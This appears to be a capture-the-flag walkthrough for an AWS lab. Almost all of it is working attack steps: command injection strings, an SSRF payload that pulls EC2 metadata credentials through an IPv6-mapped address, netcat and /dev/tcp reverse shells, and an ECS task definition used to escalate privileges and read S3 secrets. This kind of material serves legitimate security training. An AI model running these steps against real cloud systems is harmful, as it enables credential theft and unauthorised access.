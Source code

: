 # Easy Path

Go to `http://<ec2_ip_address>`

### Command Injection

```bash
# Command Injection on web.
; aws s3 ls
; aws s3 ls s3://<bucket-name>/
; aws s3 cp s3://<bucket-name>/flag.txt .
; cat flag.txt
```

### SSRF

```bash
# SSRF Attack.
http://<ec2_ip_address>/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>

# Configure credentials.
aws configure --profile attacker
echo "aws_session_token = <token>" >> ~/.aws/credentials

# Access to S3.
aws s3 ls
aws s3 ls s3://<bucket-name>/
aws s3 cp s3://<bucket-name>/flag.txt .
cat flag.txt
```


# Hard Path

Go to `http://<ec2_ip_address>`

### SSRF

* Using IPv6 to SSRF on web with `http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/<role>`
* Get credentials & using it to your CLI profile.

    ```bash
    aws configure --profile attacker
    echo "aws_session_token = <token>" >> ~/.aws/credentials
    ```

### Command Injection

- prepare another host for revshell attack with `nc -lvp 4000`
- command injection on web with `; nc <ip_address> 4000 -e /bin/sh &`

### For more information

- more information about iam.

    ```bash
    aws sts get-caller-identity
    aws iam list-roles
    aws iam get-role --role-name <role>
    aws iam list-attached-role-policies --role-name <role>
    aws iam list-role-policies --role-name <role>
    aws iam get-role-policy --role-name <role> --policy-name <policy>
    ````

- more information about ecs clusters.

    ```bash
    aws ecs list-clusters --region <region>
    aws ecs describe-clusters --region <region> --clusters <cluster>
    aws ecs list-container-instances --region <region> --cluster <cluster_arn>
    ```
- find available vpc subnets.

    ```bash
    aws ec2 describe-subnets --region <region>
    ```

### ECS Privesc

1. Attacker prepare revshell at other public ip point with `nc -lvp 4000`.

2. And now come back to CLI.

3. Create an ECS Task Definition JSON File:
    
    Create a file named task-definition.json and include the following content.
    Replace `<region>`, `<task_name>`, `<task_role_arn>`, `<revshell_ip>`, and `<revshell_port>` with your actual values.

    ```json
    {
      "family": "<task_name>",
      "taskRoleArn": "<task_role_arn>",
      "networkMode": "awsvpc",
      "cpu": "256",
      "memory": "512",
      "requiresCompatibilities": ["FARGATE"],
      "containerDefinitions": [
        {
          "name": "exfil_creds",
          "image": "python:latest",
          "entryPoint": ["sh", "-c"],
          "command": ["/bin/bash -c \\\"bash -i >& /dev/tcp/<revshell_ip>/<revshell_port> 0>&1\\\""]
        }
      ]
    }
    ```

4. Create an ECS Run Task JSON File.

    Create a file named run-task.json and include the following content. Replace `<subnet>` with the actual values for your setup.

    ```json
    {
      "launchType": "FARGATE",
      "networkConfiguration": {
        "awsvpcConfiguration": {
          "assignPublicIp": "ENABLED",
          "subnets": ["<subnet>"]
        }
      }
    }
    ```

5. Register Task Definition and Run Task

    Now, you can use the AWS CLI with the JSON files to execute the commands.

    ```bash
    # Register task definition
    aws ecs register-task-definition --region <region> --cli-input-json file://task-definition.json
   
   # Run task
    aws ecs run-task --region <region> --task-definition <task_name> --cluster <cluster_name> --cli-input-json file://run-task.json
    ```

    After a few minutes, the revshell will be connected by container.
    Let's access to s3 on revshell.

### Access S3

```bash
apt update
apt install awscli

aws s3 ls
aws s3 ls s3://<bucket-name>/
aws s3 cp s3://<bucket-name>/secret-string.txt .
cat secret-string.txt
```